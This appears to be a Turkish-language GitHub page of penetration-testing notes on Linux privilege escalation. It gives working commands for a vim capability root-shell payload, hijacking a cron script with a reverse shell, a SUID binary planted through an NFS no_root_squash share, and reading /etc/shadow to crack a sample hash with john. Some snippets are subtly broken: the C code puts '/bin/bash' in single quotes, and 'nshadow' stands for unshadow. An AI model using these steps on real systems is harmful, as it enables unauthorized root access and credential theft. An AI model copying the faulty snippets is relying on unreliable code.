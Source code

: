 Ayrıcalık Yükseltme Yetenekleri:

# getcap ile priv esc


```bash
getcap -r / 2>/dev/null
``` 
![image](https://github.com/user-attachments/assets/41681c69-e0f1-4cfd-9b96-1fd99781a0b2)

daha sonra

![image](https://github.com/user-attachments/assets/f433e7ef-4b5a-422f-882e-b293290ead65)

Vim'in aşağıdaki komut ve yük ile kullanılabileceğini fark ediyoruz:
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
![image](https://github.com/user-attachments/assets/fda3d99b-ff2c-431b-8742-920c643d51a0)

---

# Cronjobs ile priv esc

```bash
cat /etc/crontab
```
![image](https://github.com/user-attachments/assets/0b0a0f38-b9c8-4955-9df3-fb418ce0768a)
backup.sh'ı görebiliyoruz içindekileri silip reverse bash shellimizi koyuyorzu ve nc ile dinliyoruz cronjob çalıştığı zaman shell gelicektir

Eğer backup.sh executable değil ise yürütülebilir yapıp yürütmeliyiz.

![image](https://github.com/user-attachments/assets/3f5f374f-507a-4f6e-89c7-aedca770a237)
 

---

# NFS (Ağ Dosya Paylaşımı) yapılandırması /etc/exports dosyasında tutulur.
```bash
cat /etc/exports
```
![image](https://github.com/user-attachments/assets/c82d3b7f-06d5-41d1-bd36-5a4486cac6fd)

Saldıran makinemizden bağlanabilir paylaşımları sayarak başlayacağız.

```bash
showmount -e [hedef_ip]
```
![image](https://github.com/user-attachments/assets/196a0842-5170-4d3f-be99-1369d61cb9a1)

Saldıracağımız makineye “no_root_squash” paylaşımlarından birini bağlayıp çalıştırılabilir dosyamızı oluşturmaya başlayacağız.
tmp içinde olmalı


![image](https://github.com/user-attachments/assets/0944424d-1742-40d7-9a31-3415a11af785)


sonra 


SUID bitlerini ayarlayabildiğimiz için hedef sistemde /bin/bash'i çalıştıracak basit bir çalıştırılabilir dosya işimizi görecektir.

![image](https://github.com/user-attachments/assets/dde4845c-94af-41e1-a82c-d190484f33e3)

```bash
/tmp/backupsonattackermachine içinde
# echo "int main(){setgid(0);setuid(0);system('/bin/bash');return 0;}" >> nfs.c
# gcc nfs.c -o nfs -w 
# chmod +s nfs   
# 
```

Kodu derlediğimizde SUID bitini ayarlayacağız.

![image](https://github.com/user-attachments/assets/2f97d0c4-0266-4fca-97a3-251db79a799f)


hedef sisteme atıyoruz nfs dosyasını 

daha sonra ./nfs olarak calıstıyoruz

---


# farklı kullanıcalara shadow ve passwd üzerinden erişim sağlama:

/etc/shadow ve /etc/passwd okuyabiliyorsak şu adımları izlemeliyiz

```bash
# cat /etc/shadow
# cat /etc/passwd
```
mesela missy kullanıcısına ait passwordu kırıcaz

okuduğumuz shadow ve passwdleri  passwd.txt ve shadow.txt içine atıyoruz
örn  
``` bash
# cat  passwd.txt   
missy:x:1001:1001::/home/missy:/bin/bash
```

``` bash
#cat shadow.txt 
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```
daha sonra shadowu kaldırmamız lazım 
``` bash
nshadow passwd.txt shadow.txt > cracked.txt
john --wordlist=/usr/share/wordlists/rockyou.txt cracked.txt
```
şifreyi kırdık 




















